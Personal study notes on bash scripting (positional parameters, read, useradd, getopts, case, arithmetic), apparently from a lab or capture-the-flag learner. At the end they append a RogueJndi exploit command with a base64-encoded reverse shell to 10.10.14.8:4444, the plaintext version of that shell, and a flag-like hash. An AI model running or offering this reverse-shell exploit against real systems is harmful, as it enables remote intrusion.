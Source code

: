 pass command, cmd substitution = `$(cmd)` \
variable = `${variable}`
parameter - variable being used inside the shell script
arguement - data passed into the shel lscritp
	arguement used in command line becoems the value stored in a parameter

`${0}` - first positional parameter - what is typed in the cmd line to execute the script - returns output of the command
`${1}` - value fo the first arguement passed to the script on the cmd
expression = `[[ expression ]]
`${?}` exit status variable
read input `read ` `-p` -passes the input onto value 
	ex. `read -p 'Entire input: ' variable_name`
useradd `-c` -comment for user `-m`(make home directory) `"username"`
shuf - shuffles entire lines
fold - wrap each input line to match space 
which - finds which path x command will execute from
	`which head` - finds location of head cmd
hash - `hash` - changes shell remembered locations
basename - strips out directory and suffix from filenames - aka display only filename - doesnt do smart checking
dirname - strips last component from file name - aka display only directory  - doesnt do smart checking
!`letter` - goes back to last command that started with X letter
`${@}` - puts each input as seperate words
`${*}` - puts each input as one word
`${#}` - represents the number of arguments
`sleep -s m h d` - delays command for -seconds -minutes -hours -days
`shift` - each time the cmd runs, ${#} goes down one
`readonly [variable]=[variable assignment]` - read only variable 
`getopts` - used matching pattern to get options from input
	`getopts input options OPTION`
	`while GET`
`bash pgrep -x` - check processes
`
### Case
case `[input]` in
`value`) `command` ;;
;; - block ender
esac - case finish

When trying to do math in bash format is `$(( NUM + NUM ))`
num can be variables as well but dont need ${} 


________________________________________________________________________
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuOC80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}" --hostname "10.10.14.8"

echo 'bash -c bash -i >&/dev/tcp/10.10.14.8/4444 0>&1' |
base64

6ced1a6a89e666c0620cdb10262ba127

